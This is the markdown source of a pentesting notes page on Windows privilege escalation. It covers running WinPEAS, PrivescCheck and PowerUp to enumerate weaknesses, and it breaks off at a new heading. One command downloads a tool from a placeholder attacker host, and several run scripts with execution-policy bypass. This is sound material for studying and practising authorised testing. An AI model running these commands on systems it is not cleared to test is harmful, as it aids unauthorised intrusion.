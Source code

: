 ```yaml
---
title: "Windows privilege escalation"
weight: 3
description: "Learn about various techniques and methods for privilege escalation on Windows systems, including UAC bypass, credential dumping and more, with detailed notes and code examples."
---
```


# Windows privilege escalation

{{< hint style=notes >}}
**Note**: if you have a valid user credential you can authenticate in windows target from SMB, RDP, WinRM.
{{< /hint >}}

---

## Automation script

**[WinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)**
```powershell
powershell

# Transfer winPEAS file
iwr -uri http://<ATTACKER_MACHINE>/winPEASx64.exe -Outfile winPEAS.exe

.\winPEAS.exe
```

**[PrivescCheck](https://github.com/itm4n/PrivescCheck)**
```dos
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

**[PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)** - [Docs](https://powersploit.readthedocs.io/en/latest/Privesc/)
```powershell
powershell -ep bypass
. .\PowerUp.ps1

# Now you can run commands like Get-ModifiableServiceFile
Get-ModifiableServiceFile
```

{{< hint style=warning >}}
**Warning**: You should **never fully trust the output of a tool**, as it can sometimes be incorrect even on simple tasks like detecting the target machine’s operating system.
{{< /hint >}}


---

## Execute commands as another user

